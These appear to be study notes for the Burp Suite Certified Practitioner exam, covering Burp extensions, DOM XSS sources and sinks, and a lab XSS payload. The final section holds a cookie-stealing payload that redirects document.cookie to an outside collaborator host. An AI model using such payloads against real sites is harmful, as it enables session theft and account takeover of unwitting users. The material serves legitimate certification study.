 # Useful info for BSCP
## Extensions for Burp Suite:
* Active Scan++
* Hackvertor
* Collaborator Everywhere
* HTTP Request Smuggler
* Scan manual insertion point
* JWT Editor
* InQL - GraphQL Scanner
* Content Type Convertor
* Server-Side Prototype Pollution Scanner
* DOM Invader (burp browser)
* Java Deserialization Scanner
1
## Tips:
1. Use targeted scan (in Intruder highlight insertion point and use option run targeted scan)   
2. Passas much mystery labs as possible and note and repeat those with mistakes  
3. Review all labs solutions  

## XSS
1. If "Search" or "Comments" functionality is present - scan them for XSS.  
3. Review the source code to identify the sources , sinks or methods that may lead to exploit, list of samples:
```
document.write()
window.location
document.cookie
eval()
document.domain
WebSocket()
element.src
postMessage()
setRequestHeader()
FileReader.readAsText()
ExecuteSql()
sessionStorage.setItem()
document.evaluate()
JSON.parse
ng-app
URLSearchParams
replace()
innerHTML
location.search
addEventListener1
```
* check with DOM Invader
* angularJS - `ng-app` in HTML or `angular 1-7-7.js`
mz
### Payloads
1. DOM XSS in document.write sink using source location.search inside a select element:  
* Add parameter to URL `product?productId=1&storeId=kek` and check out it is in dropbox on the product site. Check HTML code and find out, that storeId is in `<select>` tag. Create the next payload:
```
storeId=kek"></select><script>alert(1)</script>
```
Adapted version:
```
"></select><script>document.location='http://burp.oastify.com/?c='+document.cookie</script>
```